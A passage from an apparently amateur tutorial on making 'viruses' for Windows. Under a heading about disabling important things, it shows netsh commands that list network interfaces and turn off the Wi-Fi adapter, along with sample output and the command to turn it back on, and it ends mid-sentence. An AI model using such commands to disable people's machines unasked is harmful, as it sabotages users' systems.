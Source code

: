 ## [](https://xeushack.com/how-to-make-your-own-viruses#disable-important-stuff)Disable Important stuff

The fact that windows provide utilities and services that can be accessed through the command line opens up yet another attack vector. Changing important configurations such as registry entries can render a computer unusable.

* **Disable Wi-Fi** - Let’s see how we can go about this. First, we find out the names of all the network interfaces:

  ```powershell
  netsh interface show interface
  ```

  This outputs:

  ```powershell
  Admin State    State          Type             Interface Name
  -------------------------------------------------------------------------
  Enabled        Disconnected   Dedicated        Ethernet
  Enabled        Connected      Dedicated        VirtualBox Host-Only Network
  Enabled        Connected      Dedicated        Ethernet 2
  Enabled        Connected      Dedicated        Wi-Fi
  ```

  For my computer, the wireless interface is simply named `Wi-Fi` (it may be different for you). And now we can just disable it:

  ```powershell
  netsh interface set interface "Wi-Fi" Disable
  ```

  And the Wi-Fi stops working and also the Wi-Fi icon disappears from the taskbar.

  It can be re-enabled by using this command: (*P.S: Disabling/Enabling interfaces requires admin privileges.*)

  ```powershell
  netsh interface set interface "Wi-Fi" Enable
  ```

  Or through the control panel:
